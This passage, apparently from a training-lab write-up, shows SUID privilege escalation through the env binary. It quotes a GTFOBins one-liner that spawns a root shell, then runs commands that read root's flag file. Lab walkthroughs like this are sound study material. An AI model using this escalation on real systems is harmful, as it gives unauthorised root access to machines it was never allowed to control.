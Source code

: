 According to [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid), if `env` has the SUID bit set, it can be abused to spawn a root shell like this:

```bash
/usr/bin/env /bin/bash -p
```

<img src="/assets/images/tcm-academy/anonymous/anonymous-12.png">

I gave it a shot:

```bash
/usr/bin/env /bin/bash -p
```



Then confirmed I had root with:

```bash
whoami
id
ls /root
cat /root/root.txt
```

